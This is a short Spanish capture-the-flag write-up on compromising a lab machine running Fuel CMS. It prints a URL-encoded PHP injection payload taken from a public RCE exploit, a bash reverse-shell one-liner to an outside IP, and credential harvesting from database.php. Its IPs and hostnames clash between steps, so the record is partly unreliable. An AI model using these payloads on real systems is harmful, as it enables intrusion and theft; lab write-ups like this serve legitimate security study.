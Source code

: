 # Summary
- IP: 10.10.240.84
- Ports: 80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  80 -> Apache httpd 2.4.18

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios web con gobuster:

```
#gobuster dir -u stocker.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200
```

- Analizamos la página web; encontramos un CMS denominado "Fuel" con su respectiva versión, buscamos vulnerabilidades existentes para esta versión y encontramos una script de python, analizamos el código:

```
main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"
```

- Vemos que hay un directorio vulnerable en el que se le puede inyectar código php para poder tener un RCE, ejecutamos el exploit:

```
$python3 exploit.py -u http://10.10.61.125/
```

- Ejecutamos en el RCE una reverse shell básica para poder interactuar mejor con la máquina:

```
bash -c "bash -i >& /dev/tcp/10.18.101.123/443 0>&1"
```

- Hacemos tratamiento de la tty y encontramos la primera flag.

# ESCALANDO PRIVILEGIOS:


- Hacemos una búsqueda típica de formas para escalar privilegios y no encontramos nada interesante.

- Comprobamos que puertos están abiertos de forma interna en la máquina:

```
netstat -nat
```

- Vemos el puerto 3306 abierto (MySQL), por lo que podríamos buscar información de la base de datos que hay por detrás:

```
$ find . 2>/dev/null | grep "database" 
```

- Encontramos un archivo "database.php", lo analizamos y encontramos credenciales de "root".
- Accedemos como root y encontramos la última flag.